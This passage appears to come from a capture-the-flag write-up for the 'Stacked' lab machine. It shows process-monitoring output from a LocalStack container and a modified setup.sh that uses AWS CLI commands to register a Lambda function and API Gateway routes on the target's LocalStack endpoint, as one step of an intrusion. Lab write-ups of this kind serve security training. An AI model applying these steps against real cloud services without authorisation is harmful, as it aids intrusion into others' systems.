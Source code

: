 ```
2021/09/19 11:39:15 CMD: UID=0    PID=108    | node /opt/code/localstack/localstack/node_modules/kinesalite/cli.js --shardLimit 100 --port 43843 --createStreamMs 500 --deleteStreamMs 500 --updateStreamMs 500 --path /var/localstack/data/kinesis
2021/09/19 11:39:15 CMD: UID=0    PID=1      | /bin/bash /usr/local/bin/docker-entrypoint.sh
```

We can take the `setup.sh` from the repository, remove the fail checks, exchange the awslocal command for aws, add our endpoint to the aws commands and remove the `id` in the later path parameters to avoid errors.

`setup.sh`

```
#!/bin/sh

API_NAME="processes"
REGION=eu-west-1
STAGE=test


aws lambda create-function \
    --endpoint=http://s3-testing.stacked.htb \
    --region ${REGION} \
    --function-name ${API_NAME} \
    --runtime nodejs8.10 \
    --handler lambda.apiHandler \
    --memory-size 128 \
    --zip-file fileb://api-handler.zip \
    --role arn:aws:iam::123456:role/irrelevant

LAMBDA_ARN=$(aws lambda list-functions --endpoint=http://s3-testing.stacked.htb --query "Functions[?FunctionName==\\`${API_NAME}\\`].FunctionArn" --output text --region ${REGION})
```

```

aws apigateway create-rest-api \
    --endpoint=http://s3-testing.stacked.htb \
    --region ${REGION} \
    --name ${API_NAME}


API_ID=$(aws apigateway get-rest-apis --endpoint=http://s3-testing.stacked.htb --query "items[?name==\\`${API_NAME}\\`].id" --output text --region ${REGION})
PARENT_RESOURCE_ID=$(aws apigateway get-resources --endpoint=http://s3-testing.stacked.htb --rest-api-id ${API_ID} --query 'items[?path==`/`].id' --output text --region ${REGION})

aws apigateway create-resource \
    --endpoint=http://s3-testing.stacked.htb \
    --region ${REGION} \
    --rest-api-id ${API_ID} \
    --parent-id ${PARENT_RESOURCE_ID} \
    --path-part "{somethingId}"

RESOURCE_ID=$(aws apigateway get-resources --endpoint=http://s3-testing.stacked.htb --endpoint=http://s3-testing.stacked.htb --rest-api-id ${API_ID} --query 'items[?path==`/{somethingId}`].id' --output text --region ${REGION})

aws apigateway put-method \
    --endpoint=http://s3-testing.stacked.htb \
    --region ${REGION} \
    --rest-api-id ${API_ID} \
    --resource-id ${RESOURCE_ID} \
    --http-method GET \
    --request-parameters "method.request.path.somethingId=true" \
```